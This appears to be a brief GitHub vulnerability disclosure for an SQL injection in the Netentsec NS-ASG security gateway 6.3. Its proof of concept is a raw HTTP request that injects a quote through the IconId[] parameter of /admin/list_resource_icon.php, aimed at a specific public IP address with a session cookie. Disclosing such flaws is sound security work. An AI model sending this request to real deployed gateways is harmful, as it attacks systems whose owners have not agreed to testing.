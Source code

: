Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/list_resource_icon

https://218.75.78.54:4443/admin/index

Poc：
```
GET /admin/list_resource_icon.php?action=delete&IconId[]=1%27 HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=f30e8a16a1b6373bbc11e1ce84445033
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
<img width="670" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/c7181c41-3aae-4454-81ce-13eca567dd90">
<img width="648" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/e21ccc9f-f347-4dd2-941b-cbaa175b683f">
